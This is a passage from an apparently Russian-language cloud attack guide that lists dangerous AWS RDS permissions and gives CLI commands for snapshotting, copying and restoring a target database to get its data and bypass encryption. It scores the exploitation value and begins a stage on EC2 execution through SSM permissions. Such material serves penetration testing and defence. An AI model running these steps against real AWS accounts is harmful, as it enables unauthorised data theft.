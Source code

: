 #### Расширенные права (критически опасные):
- **rds:ModifyDBInstance** - изменение конфигурации БД
- **rds:DeleteDBInstance** - удаление БД
- **rds:CreateDBInstance** - создание новых БД
- **rds:DescribeDBParameters** - параметры БД

#### Примеры атак:
```bash
# Просмотр существующих снимков
aws rds describe-db-snapshots --db-instance-identifier target-db

# Создание снимка БД
aws rds create-db-snapshot \
    --db-instance-identifier target-db \
    --db-snapshot-identifier malicious-snapshot

# Копирование снимка в другой регион
aws rds copy-db-snapshot \
    --source-db-snapshot-identifier malicious-snapshot \
    --target-db-snapshot-identifier copied-snapshot \
    --source-region us-east-1 \
    --destination-region us-west-2

# Восстановление БД из снимка
aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier restored-db \
    --db-snapshot-identifier malicious-snapshot
```

#### Эксплуатационная ценность: 🔥🔥🔥🔥🔥 (35 баллов)
- **Полный доступ к данным БД** через снимки
- **Обход шифрования** активных БД
- **Анализ структуры** и содержимого БД

---

### 🔍 Этап 3: Получение выполнения на EC2

#### Требуемые права:
```json
{
    "Version": "2012-10-17",
    "Statement": [
        {
            "Effect": "Allow",
            "Action": [
                "ssm:SendCommand",
                "ssm:ListCommandInvocations",
                "ssm:GetCommandInvocation",
                "ssm:DescribeInstanceInformation",
                "ssm:ListInstances"
            ],
            "Resource": "*"
        },
        {
            "Effect": "Allow",
            "Action": [
                "ssmmessages:CreateControlChannel",
                "ssmmessages:CreateDataChannel",
                "ssmmessages:OpenControlChannel",
                "ssmmessages:OpenDataChannel"
            ],
            "Resource": "*"
        }
```
